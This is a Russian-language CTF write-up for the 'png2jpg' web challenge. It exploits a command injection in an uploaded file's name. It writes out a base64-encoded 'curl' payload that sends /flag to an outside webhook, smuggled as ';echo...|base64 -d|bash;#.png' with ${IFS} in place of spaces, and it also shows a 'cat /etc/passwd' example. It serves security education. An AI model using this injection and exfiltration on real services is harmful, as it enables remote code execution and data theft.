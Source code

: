 # web | png2jpg

## Information
Написал сервис по перефигачиванию png в jpg. Надеюсь, что он безопасный.

## Writeup
Смотрим на функцию кодирования в другой формат, видим command injection в названии файла.
Также видим функцию проверки на расширение файла, оно должно быть обязательно .png

![alt text](img/vuln.png)

Также заметим, что в названии файла все пробелы заменяются на _

![alt text](img/replace.png)

Делаем вывод, что мы можем прочитать файл и отправить его по вебхуку себе. Также стоит учесть тот факт, что символ / не может быть в названии файла. Поэтому нам придётся закодировать payload в base64, а потом только отправить команду в названии файла. Из-за замены пробелов на _ будем использовать \${IFS} вместо пробелов. Так в линуксе можно выполнять команды без пробелов вовсе. Пример: ``cat${IFS}/etc/passwd``

1. Генерируем payload: ``echo "curl -d \`cat /flag\` https://webhook.site/f7b6e0a2-b6fb-4495-988b-820fcc5eb049" | base64``
2. Посылаем файл с вот таким названием: ``;echo${IFS}'Y3VybCAtZCBgY2F0IC9mbGFnYCBodHRwczovL3dlYmhvb2suc2l0ZS9hMDUzMTQwYS03YjY2LTQxM2YtYTM0Mi0wYjM0MTc3YzEwOGMK'|base64${IFS}-d|bash;#.png``

Подставляете свой webhook и base64 payload, получаете флаг.

![alt text](img/burp.png)
![alt text](img/webhook.png)

## Flag
`SgffCTF{p1vn4y4_inj3ct10n}`
